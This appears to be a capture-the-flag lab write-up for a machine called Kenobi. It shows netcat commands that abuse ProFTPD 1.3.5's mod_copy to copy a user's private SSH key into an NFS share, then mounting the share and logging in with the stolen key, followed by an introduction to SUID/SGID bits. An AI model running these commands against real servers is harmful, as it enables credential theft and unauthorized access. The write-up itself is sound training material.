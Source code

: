There are three RCE exploits leveraging the mod_copy module. This module implements the SITE SPFR and SITE CPTO commands which copy files from one place in the file system to another without needing to transfer them to a client and back (more info here: http://www.proftpd.org/docs/contrib/mod_copy.html).

From the log.txt file earlier, we know that the FTP service is running with kenobi as the user and we also know that an ssh key was generated for that user. We can use the SITE CPFR and SIDE CPTO commands to get that ssh key.
```
─$ nc 10.10.213.160 21                       
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.213.160]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

Here we were able to use netcat to connect to the ftp server on port 21. Using the SITE CPFR command, we can copy the file path we found in the log.txt file. Next we need to copy the file to the mountable directory we found when we enumerated rpcbind port 111. Now we need to mount the directory to our machine.
```
mkdir mnt
sudo mount 10.10.213.160:/var mnt
```

We can now view the rsa key in the tmp directory. First, make sure you copy the rsa key out of the mount directory and change the permissions. We can use this to connect to the target via ssh.
```
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.213.160
```

### Privilege Escalation

##### SUID/SGID/Sticky

SUID (Set User ID), SGID (Set Group ID), and sticky bits are permission identifiers with special meaning.

* SUID
  * On files: User executes with permission of the file owner
  * On directories: N/A

* SGID 
  * On files: User executes with permissions of the group owner
  * On directories: Files created in the directory get the same group number

* Sticky Bit
  * On files: N/A
  * On directories: Users are prevented from deleting files from other users.

These bits can be found in permission indicator strings with the first capital S signifying SUID,  the second capital S signifying SGID, and a capital T signifying sticky bit. The following example has all three bits set:
```
rwSrwSrwT
```
